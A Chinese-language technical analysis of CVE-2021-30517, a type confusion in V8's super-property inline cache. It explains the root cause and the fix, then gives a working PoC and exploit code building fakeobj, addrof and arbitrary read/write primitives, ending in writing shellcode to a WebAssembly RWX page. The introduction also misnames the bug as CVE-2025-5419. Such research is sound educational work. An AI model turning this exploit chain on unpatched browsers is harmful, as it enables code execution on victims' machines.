



# CVE-2021-30517 分析

> 本文分析了 CVE-2025-5419 的根因及其稳定利用方法。该漏洞属于 V8 类型混淆漏洞，感谢 [@bjrjk](https://github.com/bjrjk) 设计并提供了精巧的利用手段。

## 基本信息

| 项目 | 内容 |
|---|---|
| 漏洞编号 | CVE-2021-30517 |
| 官方描述 | Type confusion in V8 |
| 漏洞类型 | SuperIC 中 `receiver` / `lookup_start_object` 混淆 |
| Chromium Issue | `1203122` |
| 官方修复提交 | `387c803020c331ea4203c85b3bb6d9d714457375` |
| 修复版本 | Chrome `90.0.4430.212` |
| 复现命令 | `./d8 --allow-natives-syntax poc.js` |

---

## 漏洞概览

该漏洞的问题不在于原型链“少查了一层”，而在于 `super.prop` 进入 SuperIC 快路径之后，混淆了 `receiver` 和 `lookup_start_object`。`super` 访问里，`receiver` 表示当前调用时实际的 `this`，`lookup_start_object` 表示原型链查找的起点。两者一旦被混在一起，后续的专用 handler 会获取错误的对象布局去解释固定偏移，最终形成类型混淆。

---

## 前置知识

### `super` 访问里一直同时存在两个对象

可参考一个简单的例子：

```js
class Base {
  get x() { return 1; }
}

class Derived extends Base {
  m() {
    return super.x;
  }
}
```

此处的 `super.x` 不是从 `this` 开始查找。实际过程可概括成：先获取 `receiver = this`，再获取 `lookup_start_object = Derived.prototype.__proto__`，随后从 `lookup_start_object` 开始查找属性，最后再把结果按 `receiver` 的语义返回。如果命中 getter，那么 getter 里的 `this` 仍然是 `receiver`。

因此在 `super` 语境里，`receiver` 和 `lookup_start_object` 从定义上即两种不同的对象。前者回答“谁在调用”，后者回答“从哪里开始查”。后续分析 PoC 和 patch 时，持续区分这两个对象有助于理清整条漏洞链路。

### `super` 的读和写不可对称理解

该点将直接影响后续的利用方式。

```js
super.x
```

读取时，关键是从 `lookup_start_object` 开始查找。

```js
super.x = value
```

写入时，查找过程仍然和原型链有关，但最终发生写入的位置仍然是 `receiver`。即，读路径里的“查找起点”和写路径里的“最终落点”不是一回事。后续 `super.prototype = obj` 不可直接转化为 `addrof`，原因就在该点。

### SuperIC 和专用 handler

V8 将热点属性访问缓存起来。第一次访问时走慢路径，查清楚之后，把这次访问的形态记到 feedback 里；后续同一个访问点再看到相同形态的对象，可直接走快路径。`super.prop` 因为语义特殊，有一套单独的路径，即 `LoadSuperIC`。

`LoadSuperIC` 和普通 `LoadIC` 最大的区别，是它必须把 `receiver` 和 `lookup_start_object` 一起带下去。后续一旦命中某个 handler，差异主要就出在此处。对 `Function.prototype`、`String.length`、`StringWrapper.length` 此类高频场景，V8 不走通用属性查找，而是直接用专门的 `Code` handler 调一个 builtin stub，按固定偏移读对象字段。

此类优化一旦传入错误对象，后果也会明显：不是“查出来的属性异常”，而是“把错误偏移上的数据当成另一种类型解释”。30517 本质上即一条专用读取路径的错参问题。

---

## PoC 分析

### PoC

```js
function main() {
    class C {
        m() {
            super.prototype;
        }
    }
    function f() {}
    C.prototype.__proto__ = f;

    let c = new C();
    c.x0 = 1;
    c.x1 = 1;
    c.x2 = 1;
    c.x3 = 1;
    c.x4 = 0x42424242 / 2;

    f.prototype;
    c.m();
}

for (let i = 0; i < 0x100; ++i) {
    main();
}
```

该段代码里需要关注的信息主要分散在四个地方：

1. `C.prototype.__proto__ = f`
2. `c.x0` 到 `c.x4`
3. `f.prototype`
4. 外层循环

它们分别负责改写查找起点、布置 `receiver` 布局、预热访问以及把访问点推进到 fast path。

### `C.prototype.__proto__ = f` 改变的是 `lookup_start_object`

当 `c.m()` 执行时：

- `receiver` 是实例对象 `c`
- `home object` 是 `C.prototype`
- `lookup_start_object` 是 `C.prototype.__proto__`

此处手动写了：

```js
C.prototype.__proto__ = f;
```

因此该条 `super.prototype` 在语义上就变成了“从函数对象 `f` 开始查找 `prototype`”。该步骤关键，因为它把访问点引到了 `Function.prototype` 的专用优化路径。

PoC 的第一步不是“乱改原型链制造越界”，而是先把一条 `super` 访问伪装成“类似对函数对象读取 `.prototype`”的形状。

### `c.x0 ~ x4` 在布置 `receiver` 的 `+0x1c`

```js
let c = new C();
c.x0 = 1;
c.x1 = 1;
c.x2 = 1;
c.x3 = 1;
c.x4 = 0x42424242 / 2;
```

这些语句是在刻意布置 `receiver` 的对象布局。一个拥有足够多 inline property 的普通 `JSObject`，大致可理解成：

```text
+0x00 map
+0x04 properties
+0x08 elements
+0x0c x0
+0x10 x1
+0x14 x2
+0x18 x3
+0x1c x4
```

此处需要关注的不是 `0x42424242 / 2` 该值本身，而是 `receiver` 在 `+0x1c` 该偏移上被布置出了一个可控槽位。后续一旦 `Function.prototype` 的专用 handler 错把 `c` 当成函数对象，该槽位将直接进入 handler 的视野。

### `f.prototype` 和外层循环都在服务 fast path

```js
f.prototype;
```

该语句主要用于预热。它有助于让 `prototype` 此类热点访问更早进入稳定的优化状态，避免 `c.m()` 第一次执行时还停留在完全没有 feedback 的慢路径。

外层循环的作用更明确：

```js
for (let i = 0; i < 0x100; ++i) {
    main();
}
```

它把 `LoadSuperIC` 从 `NoFeedback` 慢慢推向单态快路径。30517 的问题出在命中专用 handler 之后的 fast path。如果访问点不够热，PoC 就走不到出 bug 的那一层。

### 最终的错位发生在 `+0x1c`



图左边是 handler 以为自己获取的 `JSFunction`，图右边是真实传进去的 `JSObject`。对 `JSFunction` 来说，`+0x1c` 附近是 `prototype / initial map` 相关槽位；对实例对象 `c` 来说，`+0x1c` 只是 `x4`。

因此 PoC 的核心可概括成一句话：

> 语义上这次访问应该按 `lookup_start_object = f` 的布局解释，实际执行时却按 `receiver = c` 的地址去读同一个固定偏移。

因此原本应该“读取函数原型”的专用 handler，最后把普通对象的 inline property 当成了 `JSReceiver` 结果返回。类型混淆即在此处形成的。

---

## 结合 patch 分析

官方 commit 标题是：

```text
[super IC] Fix a receiver vs lookup start object confusion bug
```

从 diff 可看到，它同时修了两层问题：

1. 命中 `Code` handler 之后，真正调用 stub 时传错了对象
2. 选择是否安装专用 handler 时，本来就用了错误的对象判断


### `LoadSuperIC` 的骨架一直知道这两个对象不同

提取与本次分析最相关的部分，结构如下：

```cpp
GotoIf(IsUndefined(p->vector()), &no_feedback);

TNode<Map> lookup_start_object_map =
    LoadReceiverMap(p->lookup_start_object());
GotoIf(IsDeprecatedMap(lookup_start_object_map), &miss);

TNode<MaybeObject> feedback =
    TryMonomorphicCase(p->slot(), CAST(p->vector()), lookup_start_object_map,
                       &if_handler, &var_handler, &try_polymorphic);
```

单态匹配用的是 `lookup_start_object_map`，不是 `receiver` 的 map。即，SuperIC 在整体设计上本来就知道：`super` 访问的查找形态应该围绕 `lookup_start_object` 来决定。

再看 miss 的时候：

```cpp
direct_exit.ReturnCallRuntime(Runtime::kLoadWithReceiverIC_Miss, p->context(),
                              p->receiver(), p->lookup_start_object(),
                              p->name(), p->slot(), p->vector());
```

此处 `receiver` 和 `lookup_start_object` 是一起传下去的。这说明 slow path / runtime path 并没有把两者揉成一个对象。即，30517 不是“V8 整体不理解 `super` 语义”，而是 fast path 里最后一段专用路径破坏了该逻辑。

### bug 点在 `call_handler`

`HandleLoadICHandlerCase` 该段逻辑如下：

```cpp
Label if_smi_handler(this, {&var_holder, &var_smi_handler});
Label try_proto_handler(this, Label::kDeferred),
      call_handler(this, Label::kDeferred);
Branch(TaggedIsSmi(handler), &if_smi_handler, &try_proto_handler);

BIND(&try_proto_handler);
{
  GotoIf(IsCodeMap(LoadMap(CAST(handler))), &call_handler);
  HandleLoadICProtoHandler(...);
}

BIND(&call_handler);
{
  exit_point->ReturnCallStub(LoadWithVectorDescriptor{}, CAST(handler),
                             p->context(), p->receiver(), p->name(),
                             p->slot(), p->vector());
}
```

此处的分界线明确：如果命中的 handler 是 `Code`，那就不走 proto handler，也不走别的通用逻辑，而是直接跳到 `call_handler`，把参数传给专用 stub。

patch 改掉的正是此处：


关键修改是：

```diff
- p->receiver()
+ p->lookup_start_object()
```

该改动是漏洞的核心修复点。`LoadIC_FunctionPrototype`、`LoadIC_StringLength`、`LoadIC_StringWrapperLength` 此类 stub 都是假定“输入对象的布局已经对了”。它们不会重新理解一遍 `super` 语义，也不会再判断“当前获取的是 `receiver` 还是 `lookup_start_object`”。因此此处当参数传错，后续就只剩下“按错误布局读固定偏移”这一种结果。

### handler 选择条件变更原因

另一处关键改动在 `src/ic/ic.cc`，diff 中最重要的是这些判断：

```diff
- if (receiver->IsString() && *lookup->name() == roots.length_string()) {
+ if (lookup_start_object->IsString() &&
+     *lookup->name() == roots.length_string()) {

- if (receiver->IsStringWrapper() &&
+ if (lookup_start_object->IsStringWrapper() &&
      *lookup->name() == roots.length_string()) {

- if (receiver->IsJSFunction() &&
+ if (lookup_start_object->IsJSFunction() &&
      *lookup->name() == roots.prototype_string()) {
```

此处修的是“是否应给这次访问安装专用 handler”。旧逻辑在该步骤就已经偏了，因为它用 `receiver` 的类型来决定要不要装 `StringLength`、`StringWrapperLength`、`FunctionPrototype` 这些专用读取；但 `super` 访问真正语义相关的对象是 `lookup_start_object`。

该步骤改成 `lookup_start_object` 之后，含义就明确了：凡是和 `super` 的查找语义有关的专用优化，都应该围绕查找起点来决定，而不是围绕 `this` 来决定。

### 问题集中在 fast path 的原因

从源码结构上看：

- `no_feedback` 仍然是慢路径
- `miss` 回 runtime
- `LoadIC_Noninlined` 走的是更通用的 IC stub

上述路径里，`receiver` 和 `lookup_start_object` 的区分都还在。将两者合并为同一个输入对象的，是命中 `Code` handler 后的 `call_handler`。因此 30517 不是一条普适性的 `super` 语义错误，而是一条专用 fast path 错误。

这解释了 PoC 必须训练进入优化的原因：访问点不够热时无法进入该危险路径，也就无法观察到稳定的类型混淆。

### 根因总结

把以上这些信息概括为，30517 的根因即：

> `LoadSuperIC` 在整体设计上知道 `receiver` 和 `lookup_start_object` 不是一回事，但漏洞版本在专用 handler 的安装条件和调用参数上没有把此类区分坚持到底，最终让只适用于 `lookup_start_object` 布局的固定偏移读取，运行在了 `receiver` 的真实地址上。

---

## 原语构造

### `fakeobj_limited`

PoC 已经说明 `Function.prototype` 那条读取将 `+0x1c` 读歪。下一步可先执行一个受限版本的 `fakeobj_limited`：把可控值直接写入 `x4`，再让错位读取把它当成对象返回。

```js
function fakeobj(addr) {
    function trigger(addr) {
        class C {
            m() {
                return super.prototype;
            }
        }
        function f() {}
        C.prototype.__proto__ = f;

        let c = new C();
        c.x0 = 1;
        c.x1 = 1;
        c.x2 = 1;
        c.x3 = 1;
        c.x4 = addr / 2;
        f.prototype;
        return c.m();
    }

    let obj;
    for (let i = 0; i < 4150; ++i) obj = trigger(addr);
    return obj;
}
```

该版本已经能证明 `super.prototype` 该条链能继续往 `fakeobj` 走，但局限也明显：可控数据还只是普通 inline property，能承载的位模式有限，也不够灵活。该版本主要用于验证方向。

### `fakeobj`

更稳定的版本将 `receiver` 换成 `BigInt`：

```js
function fakeobj(addr) {
    class C {
        m() {
            return super.prototype;
        }
    }

    function trigger(addr) {
        function f() {}
        C.prototype.__proto__ = f;

        let bigint = BigInt(
            BigInt(addr) *
            0x1_00000000_00000000_00000000_00000000_00000000n
        );
        f.prototype;
        return C.prototype.m.call(bigint);
    }

    let obj;
    for (let i = 0; i < 1000; ++i) obj = trigger(addr);
    return obj;
}
```

该步骤的核心不是 “BigInt 特殊”，而是它内部有一段更适合放原始整数位模式的数据区。把目标地址整体左移之后，某个 64 bit 片段的起点能稳定落到 `+0x1c` 该错位偏移上。因此 `Function.prototype` 那条错读路径不只是“把 `x4` 当对象”，而是能把更一般的地址片段解释成对象。


因此，`x4` 版本只是过渡方案，`BigInt` 版本更适合作为后续原语构造的基础。

### `super.prototype = obj` 不可直接得到 `addrof`

把 `fakeobj` 反过来写成：

```js
super.prototype = obj;
```

并不可直接得到 `addrof`。原因前述已经提过：`super` 的读写不对称。`super.prototype` 读取时，关键对象是 `lookup_start_object`；但 `super.prototype = obj` 实际发生写入时，最终落点仍然是 `receiver`。因此读路径里的“错位解释”不会自动翻成一个对称的写路径。

该条路径的实际结果将直接落到异常上：

```bash
TypeError: Cannot assign to read only property 'prototype' of bigint ...
```

该步骤把方向限定得明确：该漏洞的利用要顺着专用读取 handler 继续执行，而不是把 `super` 看成某种对称的读写入口。

### `addrof`

`addrof` 的稳定版本来自 patch 同时修掉的另一条 handler，即 `StringWrapper.length`：

```js
function addrof(obj) {
    class C {
        m() {
            return super.length;
        }
    }

    function trigger() {
        let f = new String("Nothing Important");
        C.prototype.__proto__ = f;

        let c = new C();
        c.x0 = new Proxy(obj, {});
        f.length;
        return c.m();
    }

    let addr;
    for (let i = 0; i < 1000; ++i) addr = trigger();
    return addr;
}
```

该条链的关键不在 `Proxy` 的语义，而在布局。handler 以为自己在执行：

```text
JSPrimitiveWrapper.value (+0xc)
    -> String.length (+0x8)
```

真实上，该条错位路径落到的是：

```text
JSObject.x0 (+0xc)
    -> Proxy.target (+0x8)
```

即，handler 眼里是一条两跳访存路径，真实对象上也刚好存在一条两跳访存路径，只是第二跳落到的字段换成了对象指针。因此此处选择 `Proxy(obj,{})`，而不是任意写入普通对象：`Proxy` 内部正好提供了一个稳定的 `target` 指针，便于把对象地址通过固定偏移带出来。


因此本来应该返回的 `int32 length`，实际就开始夹带对象指针信息了。

### `addrof_elements`

再继续走一步，方法并没有变，只是把 `x0` 里放的内容从 `Proxy(obj,{})` 换成数组本身：

```js
function addrof_elements(arr) {
    class C {
        m() {
            return super.length;
        }
    }

    function trigger() {
        let f = new String("Nothing Important");
        C.prototype.__proto__ = f;

        let c = new C();
        c.x0 = arr;
        f.length;
        return c.m();
    }

    let addr;
    for (let i = 0; i < 1000; ++i) addr = trigger();
    return addr;
}
```

这样最后泄漏出来的不再是“对象地址”，而是数组的 `elements` 指针：


该步骤的重要性比单纯对象地址泄漏更高。后续若要伪造 fake `JSArray`，最需要的不是“某个对象在堆上的地址”，而是一块可控、连续、稳定、能被解释成数组头的 backing store。double array 的 `elements` 区域正好满足这个条件。

到此处，基础原语已经具备：`fakeobj` 负责把地址解释成对象，`addrof` 负责获取对象地址，`addrof_elements` 负责把可控 backing store 的地址也获取出来。

---

## 任意地址读写构造

### fake array 放在真实 double array 的 backing store 里

有了 `addrof_elements` 之后，先准备一个真实 double array 作为承载容器，再泄漏它的 `elements` 地址，然后直接在这块 backing store 里摆 fake `JSArray` 头。最小的一组字段通常至少包括：

- fake `map`
- fake `properties`
- fake `elements`
- fake `length`

对应代码片段如下：

```js
let JSArray_PACKED_DOUBLE_ELEMENTS_first_QWORD =
    Number.prototype.c2f(0x0804222d, 0x082439f1);

function get_JSArray_second_QWORD(addr) {
    return Number.prototype.c2f(0x70000000,
                                ((addr ^ 1) & addr) - 0x8 + 1);
}

let fakeobj_container_wrapper = [1.1, 2.2, 3.3, 4.4];
let fakeobj_container_addr = addrof_elements(fakeobj_container_wrapper);
fakeobj_container_wrapper[0] = JSArray_PACKED_DOUBLE_ELEMENTS_first_QWORD;
fakeobj_container_wrapper[1] = get_JSArray_second_QWORD(0x0804000d);
let fakearr = fakeobj(fakeobj_container_addr + 0x8);
```

之所以把 fake header 放在真实 double array 的 `elements` 里，而不是随便找一块对象内存，是因为这块内存最易从 JS 层按 64 bit 稳定改写，而且 GC 语义也更可控。等这些字段摆好之后，再用 `fakeobj` 去解释 `fakeobj_container_addr + 0x8`，一段原本只是 double elements 的原始内存就被翻译成了 JS 层可操作的 fake array。

### `addrof_elements` 作为后半段关键前置的原因

仅获取对象地址，还不够继续放大。后续的利用需要一块既能精确写数据、又能被解释成对象头的连续内存；这正是 `elements` backing store 的价值所在。`addrof_elements` 的意义不是“多泄漏了一个地址”，而是把前述的类型混淆原语，转成了一块真正能承载 fake object header 的工作区。

该步骤之后，后续所有伪造 `JSArray` 头、安排 `length` 和 `elements` 字段、再把 fake array 作为 OOB 窗口使用的操作，才真正有了落点。

### 从 fake array 到 cage 读写



整个思路可拆成两段。

第一段是先构造出一个受限的读写窗口。fake array 的 `elements` 被布到可控堆地址之后，可把它当成一个 OOB 视角去看同一个 4GB cage 里的其它对象。一个直接用途，是先把 `BigUint64Array` 对象本身扫出来，并算出它内部关键字段相对 fake array 起点的偏移。

第二段是把 fake array 变成一个“改指针的工具”。此处采用的版本没有直接硬改 fake array 自己的 `elements`，而是先把 fake array 当成 cage 内的读写窗口，随后用它去改 `BigUint64Array` 的对象字段。这样执行会更稳一些，不容易因为胡乱改 `elements` 而被 GC 或对象一致性检查绊住。

### 选择 `BigUint64Array`

`BigUint64Array` 是一个相对合适的放大目标，原因有三点：

1. JS 层能稳定读写 `BigInt`
2. 每次天然即 64 bit
3. 它本身是“对象头 + 外部数据指针”的结构，当改掉关键指针，后续的正常读写会自动重定向

原始脚本里，对象内部关键字段的定位是这样算出来的：

```js
let biguint64_addr, biguint64_base_addr, biguint64_external_addr;

function update_biguint64_addr() {
    biguint64_addr = addrof(biguint64) - 1;
    biguint64_base_addr = biguint64_addr + 0x30;
    biguint64_external_addr = biguint64_addr + 0x28;
}
```

一旦 fake array 已经能覆盖这两个字段，后续普通的 typed array 读写会自动转成指定地址的读写。整个收束过程即：

```js
function set_biguint64_base(address) {
    cage_write64(biguint64_base_addr, 0n);
    cage_write64(biguint64_external_addr, address);
}

function read64(address) {
    set_biguint64_base(address);
    return biguint64[0];
}

function write64(address, value) {
    set_biguint64_base(address);
    biguint64[0] = value;
}
```

到此处，前述一长串对象重叠、fake array 和 OOB 窗口，最后都收束成了两个可直接使用的接口：`read64` 和 `write64`。

### wasm rwx 接入方式

后续的落地链就相对常见了。先创建 `WebAssembly.Module` 和 `WebAssembly.Instance`，再泄漏实例地址，然后从实例内部取出 RWX 页地址，最后把 shellcode 通过 `BigUint64Array` 写进去。




对应脚本里的关键部分是：

```js
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

let wasm_instance_address = addrof(wasm_instance);
let rwx = cage_read64(wasm_instance_address - 1 + 0x68);
```

随后把 shellcode 组装成 `BigInt` 数组，写进刚获取的 RWX 区，然后调用导出函数触发执行。


到此处，整条链就完整了：

```text
SuperIC confusion
-> fakeobj / addrof / addrof_elements
-> fake JSArray
-> cage 内部读写
-> 覆盖 BigUint64Array 外部指针
-> read64 / write64
-> wasm rwx
```

---

## 总结

CVE-2021-30517 的关键点，在于它把 `super` 语义里最易混淆的两个对象角色集中暴露了出来。正常情况下，`receiver` 负责“谁在调用”，`lookup_start_object` 负责“从哪里开始查”；漏洞版本的问题不是 V8 完全不理解这件事，而是在专用 fast path 上没有把此类区分坚持到底。

一旦进入 `call_handler`，错误的对象将被传给只认固定布局的专用 stub，类型混淆也就在此处发生。后续的 `fakeobj`、`addrof`、`addrof_elements` 看起来像三条不同原语，实际上都只是同一个根因在不同对象布局上的展开。

---

## 参考资料

1. [Chrome Releases: Stable Channel Update for Desktop (2021-05-10)](https://chromereleases.googleblog.com/2021/05/stable-channel-update-for-desktop.html)
2. [V8 patch: Fix a receiver vs lookup start object confusion bug](https://chromium.googlesource.com/v8/v8/+/387c803020c331ea4203c85b3bb6d9d714457375%5E%21/)
3. [Chromium Review 2856538](https://chromium-review.googlesource.com/c/v8/v8/+/2856538)
4. [Chromium issue 1203122](https://crbug.com/1203122)
5. [MDN: `super`](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Operators/super)
